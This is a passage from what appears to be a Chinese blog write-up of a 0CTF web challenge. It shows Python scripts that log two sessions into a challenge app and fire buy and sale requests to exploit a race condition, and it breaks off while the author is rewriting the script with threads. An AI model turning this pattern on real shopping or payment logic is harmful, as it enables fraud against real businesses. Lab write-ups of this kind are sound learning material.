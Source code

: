```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-
import requests

username = "moxiaoxi"
password = "moxiaoxi"

cookie1 = {"PHPSESSID":"gseqg01fg54is7nh733lch3eu1"}#PHPSESSID随意
cookie2 = {"PHPSESSID":"r18k5gc0mvu94urgd04k8hgbl7"}

url1 = "http://202.120.7.197/app.php"

paramsLogin ={"action":"login"}
data = {"username":username,"pwd":password}
paramsBuy = {"action":"buy","id":"1"}
paramsSale = {"action":"sale","id":"1"}

res = requests.post(url = url1,params = paramsLogin,data = data,cookies = cookie1)
print res.text
res = requests.post(url = url1,params = paramsLogin,data = data,cookies = cookie2)
print res.text

res = requests.get(url1,params = paramsBuy,cookies = cookie1)
print res.text
res = requests.get(url1,params = paramsSale,cookies = cookie2)
print res.text
res = requests.get(url1,params = paramsSale,cookies = cookie1 )
print res.text
```

发现这样还是没办法触发。。

和louys讨论了一下，发现一个坑点。。

貌似是因为requests是阻塞的，所以他得一个请求完，才能继续请求。阻塞就代表线性，没有竞争。

![zuse](https://moxiaoxi.info/img/post/0ctf/zuse.png)

而curl是不阻塞的，直接发包的

![louys](https://moxiaoxi.info/img/post/0ctf/louys.png)

改写一波paylaod

```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-
import requests
import threading

username = "moxiaoxi"
password = "moxiaoxi"

cookie1 = {"PHPSESSID":"gseqg01fg54is7nh733lch3eu1"}#PHPSESSID随意
cookie2 = {"PHPSESSID":"r18k5gc0mvu94urgd04k8hgbl7"}

url1 = "http://202.120.7.197/app.php"

paramsLogin ={"action":"login"}
data = {"username":username,"pwd":password}
paramsBuy = {"action":"buy","id":"1"}
paramsSale = {"action":"sale","id":"1"}

session1 = requests.session()
session2 = requests.session()

```